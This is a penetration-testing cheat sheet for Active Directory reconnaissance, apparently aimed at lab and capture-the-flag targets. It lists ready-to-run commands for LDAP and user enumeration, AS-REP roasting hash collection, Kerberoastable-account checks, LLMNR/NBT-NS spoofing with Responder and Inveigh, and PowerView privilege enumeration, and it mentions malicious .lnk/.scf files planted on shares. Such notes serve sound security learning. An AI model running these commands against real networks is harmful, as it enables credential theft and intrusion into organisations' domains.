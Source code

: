 # Enumeration

### <mark style="color:yellow;">Recon</mark>

```powershell
# LDAP Enumeration
ldapsearch -H ldap://dc.zencorp.htb -x -s base namingcontexts

# LDAP
ldapsearch -H ldap://192.168.110.55 -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
# LDAP Domain dump
ldapdomaindump -u 'domain.tld\username' -p password -o /tmp dc-ip-address
```

```bash
# Find users by SID's
impacket-lookupsid guest@10.10.11.35 -no-pass 
```

```bash
# Enum4linux
enum4linux -P 172.16.5.5
# Enumerate password policy
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```

Use LLMNR/NBT-NS Response Spoofing to capture hashes with Responder or Inveigh. Check for write access on SMB shares. A malicious .lnk or scf file can be used to target the attack host.

```bash
# Responder linux
/sudo responder -I tun0 
# Inveigh in powershell
.\Inveigh.exe
```

### <mark style="color:yellow;">User enumeration</mark>

```bash
# Kerbrute
kerbrute userenum -d ZENCORP.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175

# GetNPUsers.py 
GetNPUsers.py 'ZENCORP.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175

# Rpcclient
rpcclient -U "" -N 172.16.210.5 rpcclient 
$ enumdomuser

# Crackmapexec
crackmapexec smb 172.16.51.15 --users
crackmapexec smb 172.16.51.51 -u user -p password --users
```

### <mark style="color:yellow;">Windapsearch</mark>

```bash
# Check for bind
python3 windapsearch.py --dc-ip 10.129.1.111 -u "" --functionality

# Get domain users
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -U

# Get domain computers
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -C

# Search for OU by user
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -s "john doe"

# Show groups
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -G

# Unconstrained delegation
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -U --unconstrained-users
```

### <mark style="color:yellow;">Ldapsearch-ad.py</mark>

```bash
# Check password policy
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t pass-pols

# Check for Kerberoastable users
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t kerberoast | grep servicePrincipalName

# Check ofr ASREPRoastable users
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t asreproast
```

### <mark style="color:yellow;">Powershell enumeration</mark>

A powerfull script is powerview.ps1 [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

```powershell
# Import powerview.ps1
Import-Module .\PowerView.ps1

# Domain info
Get-ADDomain

# Enumerate password policy
Get-DomainPolicy

# Get users
Get-DomainUser

# Get computers
Get-DomainComputer

# Get group objects
Get-DomainGroup

# Get members of group
Get-ADGroupMember -Identity "GroupName" | Select-Object Name,SamAccountName,objectClass

# Check group is nested into
 Get-ADGroup -Identity "IT" -Properties MemberOf | Select-Object -ExpandProperty MemberOf
```

### <mark style="color:yellow;">PowerView enumeration</mark>

```powershell
# Get basic info
Get-NetUser "username"

# Get group memberships
Get-NetGroup -UserName "username"

# Get Domain admins
Get-NetGroupMember "Domain Admins"

# Detailed user permissions
Get-ObjectAcl -SamAccountName "username" -ResolveGUIDs

# Check for high privileged users
Find-InterestingDomainAcl

# Enumerate user rights
Get-DomainUser -AdminCount
```
